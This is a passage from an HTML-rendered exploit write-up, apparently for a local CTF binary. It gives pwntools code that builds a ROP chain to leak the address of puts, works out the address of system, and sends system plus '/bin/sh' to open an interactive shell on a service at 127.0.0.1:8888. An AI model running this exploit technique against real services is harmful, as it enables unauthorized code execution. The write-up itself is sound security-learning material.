font-weight:normal; text-transform:none">payload += p64(pop\_rdi)+p64(puts\_got+8)+p64(puts\_plt)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">s = remote("127.0.0.1",8888)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">s.recvuntil(":")</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">s.sendline(payload)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">s.recvuntil("tie3\n")</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">puts\_addr = u64(s.recvuntil("\n")[:-1].ljust(8,"\x00"))</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">print "puts\_addr: "+hex(puts\_addr)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">system\_addr = puts\_addr+off</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">print "system\_addr: "+hex(system\_addr)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">s.sendline(p64(system\_addr)+"/bin/sh\x00")</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">s.interactive()</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:宋体; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">运行结果如下 为了方便没有显示调试信息</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/aVYERT3.png)</p></div><div class="cnzz" style="display: none;">
	        <script src="http://s95.cnzz.com/stat.php?id=1253551100&web_id=1253551100" language="JavaScript"></script>
            </div>
            <div class="docpe" style="position: absolute;color: white;margin-left:-450;">
            <a target="_blank" href="http://www.docpe.com">档铺网——在线文档免费处理</a>
            </div>
            </body></html>